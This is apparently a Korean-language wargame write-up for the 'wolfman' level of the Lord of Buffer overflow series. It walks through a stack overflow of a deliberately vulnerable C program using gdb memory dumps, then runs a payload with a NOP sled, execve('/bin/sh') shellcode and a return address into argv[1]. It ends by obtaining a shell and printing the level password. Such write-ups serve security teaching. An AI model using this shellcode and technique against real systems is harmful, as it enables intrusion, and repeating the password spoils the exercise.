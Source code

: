 ============================================================================================================
[redhat-lob] (5) wolfman
============================================================================================================



.. graphviz::

    digraph foo {
        a -> b -> c -> d -> a;

        a [shape=box, label="dummy * 19 + shellcode + (argv[1] address+4*i)"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="(argv[1] address+4*i)"];
    }


|

Source Code
============================================================================================================

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }

|

Vulnerabliity Vector
============================================================================================================

main 함수의 ret를 덮어씌워 오버플로우를 발생시킨다.

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of main
    saved registers of main
    return address of main <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================

|

Buffer Overflow
============================================================================================================

Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[1]의 47번째 문자열이 "\\xbf"이어야 함

.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./wolfman `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./wolfman `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================

argv[1]이 저장되는 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 "\\xbf"인지 확인하기 때문에, gdb를 이용하여 argv[1]이 저장되는 주소(buffer)를 찾는다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/orc/wolfman1 `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffae8       -1073743128

    (gdb) i reg $ebp
    ebp            0xbffffb08       -1073743096

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffae8:     0xbffffb08      0x400309cb      0x00000002      0xbffffb34
    0xbffffaf8:     0xbffffb40      0x40013868      0x00000002      0x08048450
    0xbffffb08:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffb18:     0xbffffb34      0x08048390      0x0804861c      0x4000ae60
    0xbffffb28:     0xbffffb2c      0x40013e90      0x00000002      0xbffffc2e
    0xbffffb38:     0xbffffc43      0x00000000      0xbffffc74      0xbffffc96
    0xbffffb48:     0xbffffca0      0xbffffcae      0xbffffccd      0xbffffcd9
    0xbffffb58:     0xbffffcf2      0xbffffd0e      0xbffffd2d      0xbffffd38
    0xbffffb68:     0xbffffd46      0xbffffd88      0xbffffd97      0xbffffdac
    0xbffffb78:     0xbffffdbc      0xbffffdc5      0xbffffde3      0xbffffdee
    0xbffffb88:     0xbffffdff      0xbffffe0d      0xbffffe1c      0xbffffe24
    0xbffffb98:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffba8:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffbb8:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffbc8:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffbd8:     0x000001f8      0x0000000c      0x000001f8      0x0000000d
    0xbffffbe8:     0x000001f8      0x0000000e      0x000001f8      0x00000010
    0xbffffbf8:     0x0fabfbff      0x0000000f      0xbffffc29      0x00000000
    0xbffffc08:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc18:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc28:     0x38366900      0x682f0036      0x2f656d6f      0x2f63726f
    0xbffffc38:     0x6f772f2e      0x616d666c      0x6100336e      0x61616161
                                                      ^               ^
    0xbffffc48:     0x61616161      0x61616161      0x61616161      0x61616161
                      ^               ^               ^ argv[1] = 0xbffffc53
    0xbffffc58:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc68:     0x61616161      0x61616161      0x00bf6161      0x5353454c
    ==========================================================================

|

argv[1] pointers 쉘코드 실행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of main
    saved registers of main
    return address of main <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers ->> shellcode
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================

|

오버플로우시 RET를 argv[1] 주소로 덮어씌워 해당 쉘코드가 실행되도록 한다. argv[1] 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.


.. code-block:: console

    $ ./wolfman `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x43\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀L▒▒▒
    Segmentation fault

    $ ./wolfman `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x53\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀S▒▒▒

    bash$ whoami
    wolfman
    bash$ my-pass
    euid = 505
    love eyuna

